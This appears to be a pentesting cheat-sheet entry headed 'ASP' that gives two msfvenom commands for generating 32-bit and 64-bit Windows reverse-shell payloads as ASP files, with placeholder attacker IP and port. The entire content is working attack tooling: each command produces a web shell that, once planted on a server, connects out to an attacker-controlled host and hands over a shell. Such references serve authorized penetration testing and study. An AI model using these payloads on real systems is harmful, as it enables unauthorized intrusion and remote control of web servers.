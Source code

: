 # ASP

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp`

2. x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86-64.asp`